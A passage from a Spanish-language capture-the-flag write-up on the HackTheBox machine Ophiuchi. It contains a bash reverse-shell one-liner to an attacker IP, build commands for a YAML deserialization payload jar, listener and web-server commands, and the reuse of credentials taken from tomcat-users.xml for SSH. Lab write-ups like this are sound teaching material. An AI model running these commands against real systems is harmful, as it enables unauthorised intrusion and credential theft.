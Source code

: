   El archivo **winshell.sh** contiene código en bash el cual entablara una **revershell** a mi maquina por el puerto **443**, este archivo lo almacenare en la raiz donde alojare mi servicio **http** con python3.

  ```
  #!/bin/bash
  bash -i >& /dev/tcp/10.10.15.125/443 0>&1
  ```

  Una vez que configure el payload procedo a compilar todo el payload con los comando:

  ```java
  javac src/artsploit/AwesomeScriptEngineFactory.java
  jar -cvf yaml-payload.jar -C src/ .
  ```

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/scan/exp3.png">
  </p>

  Una vez que tengo el payload compilado procedo a ponerme en escucha por el puerto **443** con **ncat** y levantar mi servicio web con **python3**

  ```bash
  nc -lvnp 443

  python3 -m http.server 80

  ```

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/serv.png">
  </p>

  Excelente como se puede ver el código se interpreto y pude conseguir la shell con las instrucciones que le especifique en el payload del archivo **AwesomeScriptEngineFactory.java**.


  Ya dentro de la maquina veo que estoy como el usuario **Tomcat** y enumerando el sistema puedo ver que a nivel de usuarios de sistema de encuentra el usuario **admin** y en los archivo de configuración de el servicio web se puede encontrar las credenciales de este usuario ene el archivo **tomcat-users.xml**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/passwd.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/creds.png">
  </p>

## Privilege escalation


  Ya con las credenciales del usuario **admin** y recordando que el puerto **22** esta abierto uso estas credenciales para acceder por **ssh**
